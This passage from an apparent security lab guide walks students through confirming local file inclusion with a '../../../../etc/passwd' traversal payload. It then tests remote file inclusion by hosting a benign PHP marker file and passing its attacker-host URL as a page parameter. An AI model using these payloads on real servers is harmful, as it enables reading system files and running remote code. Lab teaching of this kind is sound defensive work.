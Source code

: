 **Procedure**

1. In browser or Burp Repeater, replace the parameter with `../../../../etc/passwd` and click **Go**.
2. Observe the response: if contents of `/etc/passwd` appear (lines with `root:x:0:0:...`), LFI is confirmed.
3. Save the raw request/response: `evidence/01_lfi_request.txt` and `evidence/02_lfi_passwd.png` (screenshot showing file content).

**Notes**

- Some servers block direct reads but may reveal error messages or partial content — save that as evidence.
- Try alternative path depths if 4 `../` not enough (varies by app location).

---

## 5) Step-by-step — RFI (lab-only PoC, only if server permits)

**Important:** Many modern PHP installations disable `allow_url_include` (recommended). Only attempt RFI in your lab environment and only if instructor permits. RFI can lead to remote code execution.

### A. Host a benign remote file on attacker machine

1. Create a simple PHP file on your Kali machine `~/expt09/attacker_shell.php` containing a benign marker — e.g.:

```php
<?php
echo "RFI-POC-OK";
?>
```

2. Serve it using a simple HTTP server that supports PHP (or use a small LAMP site you control). For demonstration, you can place `attacker_shell.php` into a local webroot and access via `http://<your-ip>:8000/attacker_shell.php` (ensure PHP is processed — simplest is to host on the target VM or use a simple server with PHP enabled).

_(If you cannot run PHP server, for lab demonstration you can host a plain text file and show that its contents are included — explain limitation in report.)_

### B. Attempt include of remote URL

1. In the vulnerable parameter, supply the remote URL:

   ```
   ?page=http://<attacker-ip>:8000/attacker_shell.php
   ```

2. If `allow_url_include` is enabled and the server includes remote files, the response will include `RFI-POC-OK`. Capture the request/response as `evidence/03_rfi_request.txt` and screenshot `evidence/04_rfi_response.png`.

### C. If RFI fails
